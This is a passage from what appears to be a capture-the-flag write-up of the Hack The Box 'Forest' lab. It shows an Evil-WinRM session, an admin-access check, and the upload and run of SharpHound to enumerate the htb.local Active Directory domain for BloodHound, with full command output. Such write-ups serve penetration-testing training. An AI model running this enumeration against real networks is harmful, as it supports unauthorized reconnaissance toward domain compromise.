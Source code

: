 To check if the current user has administrative access to the local (or a remote) machine


```powershell
2024-05-14 15:32:37 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > Test-AdminAccess
2024-05-14 15:32:48 +0300: 
ComputerName IsAdmin
------------ -------
localhost      False
```

### BloodHound

At this point, we can go on and on running different commands. I decided to switch to `BloodHound` for visualizing the domain better in terms of graphical representation and analytical capabilities. 

> _[BloodHound](https://bloodhound.readthedocs.io/en/latest/) uses graph theory to reveal hidden and often unintended relationships within an Active Directory (AD) environment._ 


In order to visualize this info, you need to upload an ingestor on the target, in this case `SharpHound`. You can get the `.exe` or `.ps1` from the official [repo](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

Simply run:

```bash
.\SharpHound.exe --CollectionMethods All --OutputPrefix "Forest" --Domain htb.local
```

where:

- `--CollectionMethods All` - _This tells SharpHound what kind of data you want to collect. Other methods include: DCOnly, ComputerOnly, Session, LoggedOn._ (_[More Info](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html)_)
- `--OutputPrefix "Forest"` - *This is basically the syntax to prepend in my loot file. (NOT NECESSARY)*
- `--Domain htb.local` - *Specify domain*

```bash
2024-05-14 12:28:07 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > upload /home/oste/Desktop/CTF/HTB/Forest/SharpHound.exe .
2024-05-14 12:28:07 +0300: Info: Uploading /home/oste/Desktop/CTF/HTB/Forest/SharpHound.exe to C:\Users\svc-alfresco\Documents\.
2024-05-14 12:28:42 +0300: Data: 1395368 bytes of 1395368 bytes copied
2024-05-14 12:28:42 +0300: Info: Upload successful!
2024-05-14 12:29:13 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > .\SharpHound.exe --CollectionMethods All --OutputPrefix "Forest" --Domain htb.local
2024-05-14 12:29:59 +0300: 2024-05-14T02:36:03.1519653-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-05-14T02:36:03.3238421-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-05-14T02:36:03.3550921-07:00|INFORMATION|Initializing SharpHound at 2:36 AM on 5/14/2024
2024-05-14T02:36:03.6832943-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-05-14T02:36:03.8238442-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-05-14T02:36:04.1675987-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-05-14T02:36:04.2613644-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-05-14T02:36:04.2613644-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-05-14T02:36:34.9182103-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 40 MB RAM
2024-05-14T02:36:47.3709074-07:00|INFORMATION|Consumers finished, closing output channel
2024-05-14T02:36:47.4176830-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-05-14T02:36:47.4801864-07:00|INFORMATION|Status: 161 objects finished (+161 3.744186)/s -- Using 49 MB RAM
2024-05-14T02:36:47.4801864-07:00|INFORMATION|Enumeration finished in 00:00:43.3233957
```